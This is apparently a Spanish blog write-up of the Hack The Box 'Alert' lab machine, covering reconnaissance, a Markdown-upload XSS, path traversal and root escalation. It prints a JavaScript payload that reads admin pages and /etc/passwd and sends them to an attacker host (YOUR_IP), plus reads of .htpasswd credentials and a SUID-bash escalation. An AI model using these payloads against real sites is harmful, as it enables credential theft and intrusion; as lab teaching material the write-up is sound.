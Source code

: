 ```yaml
---
title: HTB Alert Writeup
date: 2025-04-03 13:00:00 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, http, LFI, XSS]
comments: false
image:
  path: /assets/img/HTB-Alert/Alert.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Alert` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y, de paso, gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c1 10.10.11.44
PING 10.10.11.44 (10.10.11.44) 56(84) bytes of data.
64 bytes from 10.10.11.44: icmp_seq=1 ttl=63 time=151 ms

--- 10.10.11.44 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 151.119/151.119/151.119/0.000 ms
```

Vemos que el `ttl` de la máquina es de `63`, el cual está próximo a `63` por ende nos encontramos ante una máquina `Linux`.

Ahora vamos a identificar los puertos abiertos dentro de la máquina, los invito a usar el siguiente `script` hecho en `bash`.

```bash
#!/bin/bash

GREEN="\e[32m"
RED="\e[31m"
RESET="\e[0m"

IP="$1"

if [ -z "$IP" ]; then
  echo "Uso: $0 <IP>"
  exit 1
fi

TEMP_FILE=$(mktemp)

echo -e "${GREEN}[+] Escaneando todos los puertos abiertos... ${RESET}"

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn "$IP" -oG "$TEMP_FILE"

# Extraer los puertos abiertos
PORTS=$(grep -oP '\d+/open' "$TEMP_FILE" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'; echo)

rm "$TEMP_FILE"

if [ -z "$PORTS" ]; then
  echo -e "${RED}[-] No se encontraron puertos abiertos.${RESET}"
  exit 1
fi

echo -e "${GREEN}[+] Escanenado servicios en los puertos: $PORTS... ${RESET}"

nmap -sCV -p"$PORTS" "$IP" -oN target

echo -e "${GREEN}[+] Escano completado. Resultados en 'target'.${RESET}"
```

De preferencia es mejor usar este `script` como `root`, ya que algunos parámetros de `nmap`, requieren de privilegios elevados. Esto al final nos va a generar un archivo `target` que contiene la información de los puertos abiertos dentro de la máquina.

```bash
sudo ./scan.sh 10.10.11.44
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://alert.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que tenemos el puerto `22 - ssh` y `80 - http`, vemos que en el servidor `web` se aplica `resolución DNS`, y por ende nuestra máquina no sabe qué es `alert.htb`, así que lo agregamos al `/etc/hosts`, para que sepa dónde resolver

```bash
127.0.0.1   localhost
::1     localhost
127.0.0.1   machinename.localhost   machinename
10.10.11.44    alert.htb
```

### Revisando la web

Cuando ingresamos a `http://alert.htb`, nos lleva a `http://alert.htb/index.php?page=alert` y tenemos un apartado para subir un archivo en formato `Markdown`. Podemos ver su contenido y nos da un `link` para compartirlo, pero no podemos explotar nada solo con eso.

![](/assets/img/HTB-Alert/1_Alert.png)

Dentro de `http://alert.htb/index.php?page=about`, nos dicen que hay un administrador que va a estar revisando los mensajes, también está el apartado de contacto, podemos ver si el administrador revisa lo que le mandamos, si nos montamos un servidor con `python` y en el mensaje le adjuntamos nuestra `web` `http:///IP`, vemos que efectivamente quien revisa los mensajes da `clic` en el enlace.

Con `gobuster`, vamos a buscar otros directorios en la `web`.

```bash
gobuster dir -w archivo.txt -u http://alert.htb -x php
```

Algo a destacar es un directorio `/messages` y `/messages.php`, uno no devuelve nada y el otro regresa un código `403`.

## LFI via XSS

Bueno, algo que podríamos hacer es que mediante el archivo en Markdown nosotros definamos que al ver el archivo este resuelva a un archivo `.js` que podemos definir, vamos a intentar cargar la `web` que ve el administrador.

```bash
cat alert.md

<script src="http://YOUR_IP/pwned.js"></script>
```

```bash
cat pwned.js

var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/index.php?page=messages', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://YOUR_IP/?data=' + btoa(req.responseText), false);
exfil.send();
```

Vemos que efectivamente el administrador tiene otro apartado en la `web` al cual no tenemos acceso.

![](/assets/img/HTB-Alert/2_Alert.png)

Algo a destacar es el hecho de que en `http://alert.htb/messages.php?file=` aquí mediante ese paraámetro `file` solicita unos archivos. No sabemos cómo está montada la `web`, pero lo que podemos hacer es intentar cargar archivos internos de la máquina, editamos el `pwned.js` para ver el `/etc/passwd`

```bash
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../../../etc/passwd', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://YOUR_IP/?data=' + btoa(req.responseText), false);
exfil.send();
```

Vemos que efectivamente se cargan archivos internos de la máquina.

![](/assets/img/HTB-Alert/3_Alert.png)

Podemos cargar el archivo `.conf` de `apache`, ya que este se usa para levantar el servicio `web`, este sería el archivo a solicitar ahora `/etc/apache2/sites-available/000-default.conf`.

![](/assets/img/HTB-Alert/4_Alert.png)

Vemos cosas interesantes aquí. Lo primero es un subdominio `statistics.alert.htb`, que lo podemos agregar al `/etc/hosts`. Dentro de este subdominio, hay un archivo `/var/www/statistics.alert.htb/.htpasswd`, el cual suele contener credenciales cifradas, así que vemos que tiene.

![](/assets/img/HTB-Alert/5_Alert.png)

Efectivamente, vemos a un usuario y su contraseña cifrada, así que lo tratamos de romper con `hashcat`

```bash
hashcat hash_file diccionario.txt --user
```

Nos descifra la contraseña, la cual es `manchesterunited`

## Ganando acceso

Recordemos que el usuario `albert`, figuraba en el archivo `/etc/passwd`, así que vamos a tratar de conectarnos por `ssh` haciendo uso de esa credencial para ese usuario.

![](/assets/img/HTB-Alert/6_Alert.png)

Vemos que se pudo y ya tenemos la primera parte de la máquina. Algo a destacar es que nuestro usuario está en el grupo `management`. Podemos buscar por ese grupo desde la raíz del sistema para ver qué tenemos.

```bash
find / -group management 2>/dev/null
```

## Escalada de privilegios

Tenemos un directorio `/opt/website-monitor`, que parece ser otro servicio `web`, si vemos por los puertos abiertos se nos reporta que internamente la máquina tiene el puerto `8080` abierto, así que con `ssh` lo traemos a nuestro equipo.

```bash
ssh -L 8080:127.0.0.1:8080 albert@alert.htb
```

Vemos que quien está levantando el servicio es el usuario `root`.

![](/assets/img/HTB-Alert/7_Alert.png)

Bueno algo que podemos hacer es ver los permisos que tenemos en dicho directorio, vemos que en `/opt/website-monitor/monitors`, poseemos permisos de interés, podemos crear un archivo en `php` que le dé permisos `SUID` a la `bash`, como el servidor usa `php` este va a entender el archivo y como es root quien ejecuta el servidor es él quien va a cargar el archivo con los privilegios necesarios. Entonces solo debemos dirigirnos a la página `http://localhost:8080/monitors/pwned.php` y confirmar los permisos de la `bash`.

![](/assets/img/HTB-Alert/8_Alert.png)

Vemos que se pudo y ya podemos ver la `root.txt`.
